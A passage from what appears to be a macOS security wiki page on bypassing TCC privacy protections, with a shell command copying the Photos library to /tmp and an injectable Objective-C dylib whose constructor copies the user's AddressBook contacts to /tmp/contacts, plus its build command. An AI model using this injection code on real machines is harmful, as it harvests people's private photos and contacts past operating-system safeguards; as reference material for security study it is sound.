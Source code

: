 ```objectivec
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
{% endtab %}
{% endtabs %}

### Contacts

* **Entitlement**: `com.apple.security.personal-information.addressbook`
* **TCC**: `kTCCServiceAddressBook`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
    NSString *tmpPhotosPath = @"/tmp/contacts";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}
